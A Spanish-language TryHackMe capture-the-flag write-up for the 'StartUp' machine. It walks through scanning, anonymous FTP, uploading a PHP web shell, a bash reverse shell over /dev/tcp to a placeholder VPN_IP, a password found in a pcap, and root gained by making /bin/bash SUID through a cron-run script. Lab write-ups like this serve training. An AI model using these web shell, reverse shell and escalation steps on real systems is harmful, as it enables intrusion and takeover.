

# StartUp - TryHackMe

## Reconocimiento

Vamos a realizar un escaneo de puertos con nmap para ver que servicios están corriendo en la máquina.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.130.176.58

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 62
22/tcp open  ssh     syn-ack ttl 62
80/tcp open  http    syn-ack ttl 62
```
Ahora vamos a realizar un escaneo más profundo para ver que servicios están corriendo en los puertos abiertos.

```bash
nmap -sCV -p21,22,80 10.130.176.58

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.154.96
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Nos metemos a la web y vemos lo siguiente:


Vamos a meternos como usuario anónimo al FTP a ver que encontramos:

```bash
ftp 10.130.176.58

Name (10.130.176.58:mmr): anonymous
331 Please specify the password.
Password: 
230 Login successful.

ftp> ls
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt

ftp> get important.jpg
ftp> get notice.txt
```

Vamos a traernos todo el contenido del FTP a nuestra máquina local y veamos que encontramos en el archivo notice.txt.

```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

Sacamos el nombre de un posible usuario, Maya.

En la imagen no vemos nada importante:


Vamos a ver sus metadatos con exiftool:

```bash
exiftool important.jpg
```

No vemos nada interesante.

Vamos a enumerar el directorio de la web con gobuster para ver si encontramos algo interesante.

```bash
gobuster dir -u http://10.130.146.170/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20 --exclude-length 10701 --add-slash

/icons/               (Status: 403) [Size: 279]
/files/               (Status: 200) [Size: 1333]
```

Files contiene lo mismo que el FTP, por lo que no nos sirve de nada.

Vemos que la versión de OpenSSH es vulnerable a la vulnerabilidad de enumeración de usuarios, por lo que vamos a usar el script encontrado mediante searchsploit para ver si podemos encontrar algo.

```bash
searchsploit openssh
OpenSSH 7.2p2 - Username Enumeration | linux/remote/40136.py

searchsploit -m linux/remote/40136.py
python 40136.py -U /usr/share/seclists/Usernames/Names/names.txt
```

No encontramos nada y me da varios falsos positivos, maya o Maya no me los detecta como usuarios válidos.

Dentro del ftp había un archivo oculto llamado .test.log y contiene la palabra "test", pero tampoco nos sirve como usuario válido.

Hay un directorio ftp dentro del FTP.

Dentro de ese directorio tenemos permisos de escritura, por lo que vamos a subir un archivo para ver si podemos ejecutar código en la máquina.

## Explotación

```php
<?php
  system($_GET['cmd']);
?>
```

```bash
put cmd.php
```

http://10.130.149.225/files/ftp/cmd.php?cmd=whoami

Nos devuelve el usuario www-data, por lo que hemos conseguido ejecutar código en la máquina.

Vamos a entablar una reverse shell con netcat.

```bash
nc -lvnp 443
```

http://10.130.149.225/files/ftp/cmd.php?cmd=bash -c 'bash -i >%26 /dev/tcp/VPN_IP/443 0>%261'


```bash
www-data@startup:/var/www/html/files/ftp$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Vamos a hacer un tratamiento de la TTY:

```bash
script /dev/null -c bash
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 cols 184
```

## Escalada de privilegios

Vamos a ver si podemos abusar de algun grupo:

```bash
www-data@startup:/var/www/html/files/ftp$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

No podemos, tampoco nos funciona el comando `sudo -l`.

Busquemos algún binario vulnerable a SUID:

```bash
find / -perm -4000 2>/dev/null
```

No vemos nada que nos pueda servir

Vamos a ver si hay algun cron job que se ejecute como root:

```bash
crontab -l
no crontab for www-data
```

Investigando encontramos la primera flag, el ingrediente secreto de la receta.

```
www-data@startup:/$ cat recipe.txt 
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

Analizando más a profundidad encontramos un directorio llamado `/incidents` en el que hay un fichero llamado `suspicious.pcapng` que contiene un archivo de captura de red.

Lo analizamos mediante strings y vemos como una especie de escalada de privilegios en la que se entrevee una contraseña `c4ntg3t3n0ughsp1c3`.

La probamos con vagrant y no funciona, tampoco con root pero sí con el usuario lennie

```bash
$ ls
Documents  scripts  user.txt
$ id
uid=1002(lennie) gid=1002(lennie) groups=1002(lennie)
```

Conseguimos la segunda flag, el archivo user.txt

Vamos a ver que hay en Documents:

```bash
lennie@startup:~/Documents$ ls
concern.txt  list.txt  note.txt

lennie@startup:~/Documents$ cat note.txt 
Reminders: Talk to Inclinant about our lacking security, hire a web developer, delete incident logs.

lennie@startup:~/Documents$ cat list.txt 
Shoppinglist: Cyberpunk 2077 | Milk | Dog food

lennie@startup:~/Documents$ cat concern.txt 
I got banned from your library for moving the "C programming language" book into the horror section. Is there a way I can appeal? --Lennie
```

Veamos que hay en scripts:

```bash
lennie@startup:~/scripts$ ls -la
total 16
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root      1 Jul 11 17:47 startup_list.txt
```

Estos scripts son ejecutados por root

```bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

Vemos que el script `planner.sh` hace un `cat` del archivo `/home/lennie/scripts/startup_list.txt` y lo guarda en la variable `$LIST`, Luego ejecuta el script `/etc/print.sh` que hace un `echo "Done!"` sin embargo tenemos permisos de escritura en este último script, por lo que podemos modificarlo para ejecutar un comando como root.

```bash
lennie@startup:~/scripts$ ls -l /etc/print.sh
-rwx------ 1 lennie lennie 25 Jul 11 17:51 /etc/print.sh
```

```bash
#!/bin/bash
echo "Done!"
```

Lo cambiamos por:

```bash
#!/bin/bash

/bin/bash -p
```

Esto no funciona y me doy cuenta de que el archivo startup_list.txt se está sobreescribiendo cada minuto, por lo que deduzco que planner.sh se está ejecutando como tarea cron.

Con esto en mente, modificamos el script `/etc/print.sh` para que modifique los privilegios de /bin/bash y nos de una shell con privilegios de root.

```bash
#!/bin/bash

chmod u+s /bin/bash
```

Tras esto, esperamos a que se ejecute el script y ejecutamos `/bin/bash -p` para obtener una shell con privilegios de root.



Miramos el contenido del archivo root.txt y conseguimos la tercera y última flag.

Terminado!!!

